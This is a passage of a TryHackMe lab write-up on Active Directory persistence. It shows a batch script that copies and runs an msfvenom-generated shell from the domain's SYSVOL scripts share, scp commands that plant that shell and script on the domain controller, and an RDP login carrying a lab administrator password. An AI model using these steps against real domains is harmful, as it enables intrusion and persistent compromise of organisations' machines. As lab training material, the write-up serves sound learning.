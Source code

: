 		![task8-msfvenom](./images/task8-msfvenom.png)

	* Create script `kakakseram_script.bat`
	
		```
		copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\kakakseram_shell.exe C:\tmp\kakakseram_shell.exe && timeout /t 20 && C:\tmp\kakakseram_shell.exe
		```

		![task8-ls](./images/task8-ls.png)

	* Copy our shell & script to THMDC
	
		```
		scp kakakseram_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
		scp kakakseram_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
		```

		![task8-scp](./images/task8-scp.png)

	* Login RDP to THMWRK1 
	
		```
		xfreerdp /v:thmwrk1.za.tryhackme.loc /u:'Administrator' /p:'tryhackmewouldnotguess1@'
		```
